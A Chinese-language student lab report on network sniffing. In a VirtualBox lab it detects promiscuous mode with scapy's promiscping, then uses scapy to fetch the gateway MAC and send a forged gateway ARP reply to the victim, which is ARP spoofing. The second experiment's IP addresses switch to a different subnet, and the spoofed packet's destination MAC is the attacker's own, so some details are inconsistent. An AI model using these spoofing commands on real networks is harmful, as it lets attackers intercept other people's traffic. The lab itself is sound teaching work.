






# 网络嗅探
## 实验环境

- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali Rolling (2021.2) x64
  - Attacker 
- 网关（Gateway, GW）：Debian Buster
  - Gateway
- 靶机（Victim）：From Sqli to shell / xp-sp3 / Kali
  - Victim-XP

## 第一个实验

### 1.配置网络环境

1.因为实验要求攻击者主机、网关、靶机在同一局域网内，因此给攻击者主机添加一块内部网络（intnet2)的网卡

2.打开kali，使用ip a命令查看ip地址，发现新添加的网卡没有ip地址

3.修改kali的配置文件

添加
auto eth1
iface eth1 inet dhcp

修改之后重启网卡
/etc/init.d/networking restart 

重新输入ip a，就可以获得kali的ip地址了
ip地址为172.16.222.129

08:00:27:00:b0:b9 eth1

如图：

使用ipconfig查看靶机ip地址
其ip地址为172.16.222.144

08:00:27:22:9c:67

ip
网关的ip地址是172.16.222.1

08:00:27:25:f9:45 enp0s9

### 2.没有开启混杂模式

在靶机上检测混杂模式，输入
ip link show enp0s3
如图所示

在攻击者主机上开启scapy

sudo scapy

然后输入
pkt = promiscping("172.16.222.144")

- 在网关没有开启混杂模式时，使用 `scapy` 的 `promiscping` 进行检测。可以看到1个packet被留存了下来

如图：

- 查看arp缓存表。也没有在eth3这块网卡有新的IP与mac对应

### 开启混杂模式

1.开启靶机网卡的混杂模式，输入
sudo ip link set enp0s3 promisc on

然后输入ip link show enp0s3进行检验
发现成功开启

如图：

在攻击者主机上继续执行上次的scapy命令
如图：

最后在靶机上关闭混杂模式
输入：
sudo ip link set enp0s3 promisc off

如图：

## 第二个实验

获取当前局域网的网关 MAC 地址
构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

查看构造好的 ARP 请求报文详情
arpbroadcast.show()

[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:bd:92:09
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:bd:92:09
#      psrc= 192.168.0.103
#      hwdst= 00:00:00:00:00:00
#      pdst= 192.168.0.1

发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

伪造网关的 ARP 响应包
准备发送给受害者主机 192.168.0.102
ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

#发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)

